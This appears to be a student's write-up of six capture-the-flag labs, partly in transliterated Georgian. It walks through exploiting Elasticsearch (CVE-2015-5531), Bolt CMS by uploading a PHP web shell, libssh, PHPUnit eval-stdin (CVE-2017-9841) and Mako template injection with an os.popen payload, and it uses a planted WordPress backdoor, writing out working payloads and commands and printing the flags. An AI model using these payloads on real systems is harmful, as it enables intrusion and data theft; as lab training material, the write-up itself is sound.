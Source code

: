 Task 1 - Elastic
Going to the ip address we have this:
 

I went to CVE-2015-5531 which is internationally found and approved exploit for 1.3.4 version and we can find it’s code on github: https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py
 
Karoche mere am kods vakopirebt visual studioshi bratci terminalshi shevdivart dasaxakad da mere python file name da http://34.159.27.166:30092/ an ra ip-ic aris ra mere /etc/passwd Tu araa request dayenebuli pip install requests


Da amoagdebs mere wesit amas ra da boloshi ewereba flagi

Flag: CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}


Task 2 - Bolt
Going to the IP address we see this:
 
 
Most of the links don’t work, 2 links go to actual website and the items go here:
 
If we type /bolt after IP it will take us to the login page and in credentials I will write admin and password:
 
Then it takes us to the admin dashboard:
 
If we go to file management and uploaded files we can upload code that will exploit the bolt system
For this we can upload html file with php code in it and change its file format on the web:                 
 
Now I can should use ?cmd parameter to get the flag: http://35.246.139.54:30987/files/x.php?cmd=id 

?cmd= cat /flag.txt will return flag: 
 
Flag:  CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75} 
Lab 3: Libssh
http://34.107.35.141:31348/
 

Go to https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d
Ssh exploit code, copy to visual studio
Terminal python3 file location 34.107.35.141 -p 31348 -c "cd ..;cat flag.txt"
Flag: CTF{754a4874399c6c15f6f12d31bccb438d1d42b540e5cec9c2371a831bb1eabeed}


Lab 4 php-unit
34.159.27.166:32225
 
Go to burpsuite proxy turn on intercept open browser go to the ip address. Right click on the link in burpsuite go to repeater in the code on first line we put in this: GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
because with dirsearch we see the vulnerable line “/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php “ 
Then we use CVE-2017-9841 exploits, so in the end of the request we insert this line: <?php system('cat /flag.txt')?>
And we will get the flag: CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}


Lab 5 shark
34.107.35.141:31482
 

We try if Ssti injection is possible for example ${5*5} if its 25 means its possible. We go to burpsuite same way we did in the last lab and in the request after the given code we put 
name=<%
import os 
flag=os.popen('cat flag').read()
%>
${flag}

And we get the flag: CTF{4b08602e0090f81707b98ca687a5cacfd32888ffceef1d3cff2d99e6034b1e58}

Lab 6 nodiff-backdoor
http://34.159.27.166:32008/
 
we put /backup.zip after the ip 
it downloads entire wordpress files 
create new folder and extract the zip folder in it and open the folder in vscode. Then in vscode we search the files for shell_exec (basically we are looking for a backdoor)
and we find it
 
First in the browser we put http://34.159.27.166:32008/?welldone=knockknock&shazam=ls and it shows us files so we know we can use linux commands and then we do http://34.159.27.166:32008/?welldone=knockknock&shazam=cat%20flag.php and even tho It doesn’t show anything we go to inspect and search for CTF and we’ll find it: CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1} 
